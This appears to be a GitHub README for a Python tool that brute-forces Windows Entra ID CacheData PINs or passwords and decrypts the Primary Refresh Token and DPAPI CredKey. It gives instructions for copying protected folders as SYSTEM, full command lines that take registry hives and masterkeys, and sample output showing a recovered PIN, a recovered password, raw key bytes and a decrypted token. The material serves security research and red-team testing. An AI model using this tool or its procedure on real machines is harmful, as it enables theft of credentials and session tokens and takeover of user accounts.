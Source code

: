 # CacheData_decrypt

A simple Toolkit to BF and decrypt Windows EntraId CacheData.

```
usage: decrypt_cachedata.py [-h] {pin,password} ...

CacheData bruteforcer. On a live windows host, to copy the folders with all
subfolders and files: xcopy <folder> <destination> /H /E /G /C as SYSTEM. The
script will automatically iterates on each Entra ID user who has logged in on
the device. If you want to bruteforce the PIN for only one user, use the --sid
parameter.

positional arguments:
  {pin,password}  Available subparser (pin or password)
    pin           BF pin.
    password      BF password.
    dump          Dump CacheData header.

options:
  -h, --help      show this help message and exit
```

## Installation

Create a Python3 virtual env and install the requirements:

```
python3 -m venv ./my_venv
source ./my_venv/bin/activate
pip3 install -r requirements.txt
```

## Example

### PIN

Example to bruteforce a PIN, and decrypt the PRT + DPAPI CredKey.

Ensure to gather all required files and directories:

```
ls -ld CacheData secrets/Ngc/ PIN.txt secrets/system secrets/security secrets/Crypto/Keys/ secrets/masterkey/
-rw-r--r-- 1 user user    14036 Feb 15 11:12 CacheData
-rw-r--r-- 1 user user       21 Apr 22 10:56 PIN.txt
drwx------ 2 user user     4096 Feb 15 09:59 secrets/Crypto/Keys/
drwxr-xr-x 2 user user     4096 Apr  8 21:57 secrets/masterkey/
drwx------ 3 user user     4096 Feb 15 09:58 secrets/Ngc/
-rwxr-xr-x 1 user user    40960 Apr  8 21:56 secrets/security
-rwxr-xr-x 1 user user 12734464 Apr  8 21:56 secrets/system
```

Start the script with the ``pin`` argument and all required files and directories:

```
python3 decrypt_cachedata.py pin -C CacheData -N secrets/Ngc/ -P PIN.txt \
  --system secrets/system --security secrets/security --keys secrets/Crypto/Keys/ \
  --masterkey secrets/masterkey/

[+] Found PIN: 123456
[+] Parsing CacheData file CacheData
[+] CacheData file version is 0x2
[+] CacheData expected sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] CacheData computed sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] Parsing Cache node headers
[+]     Found CacheNode of type 0x1, CryptoBlobSize = 0x30, EncryptedPRTSize = 0x18d0
[+]     Found CacheNode of type 0x5, CryptoBlobSize = 0x3d7, EncryptedPRTSize = 0x1970
[+] Parsing raw blob
[+]     Found blob of size 0x30 (offset = 0x80/0x36d4)
[+]     Found blob of size 0x18d0 (offset = 0xb4/0x36d4)
[+]     Found blob of size 0x3d7 (offset = 0x1988/0x36d4)
[+]     Found blob of size 0x1970 (offset = 0x1d64/0x36d4)
[+] CacheData node of type PIN (0x5) has been found
[+] RSA decrypt encrypted AES key 1
[+] AES decrypt encrypted AES key 2
[+] AES decrypt encrypted blob of size 0x1970 (DPAPI CredKey + PRT)
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```

### Password

Example to bruteforce a password, and decrypt the PRT + DPAPI CredKey.

Start the script with the ``password`` argument and provide the CacheData file and password list:

```
python3 decrypt_cachedata.py password -C CacheData -P password.txt

[+] Parsing CacheData file CacheData
[+] CacheData file version is 0x2
[+] CacheData expected sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] CacheData computed sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] Parsing Cache node headers
[+]     Found CacheNode of type 0x1, CryptoBlobSize = 0x30, EncryptedPRTSize = 0x18d0
[+]     Found CacheNode of type 0x5, CryptoBlobSize = 0x3d7, EncryptedPRTSize = 0x1970
[+] Parsing raw blob
[+]     Found blob of size 0x30 (offset = 0x80/0x36d4)
[+]     Found blob of size 0x18d0 (offset = 0xb4/0x36d4)
[+]     Found blob of size 0x3d7 (offset = 0x1988/0x36d4)
[+]     Found blob of size 0x1970 (offset = 0x1d64/0x36d4)
[+] CacheData node of type password (0x1) has been found
[+] Password: 'P@ssw0rd!'
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```

## Credits

PRT decryption based on password (i.e not PIN) was already implemented in the
script [PRT_Utils.ps1](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/PRT_Utils.ps1#L858)
from [AADInternals](https://github.com/Gerenios/AADInternals) repository.

Also, our script uses several code snippets directly extracted from
[dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng) repository.
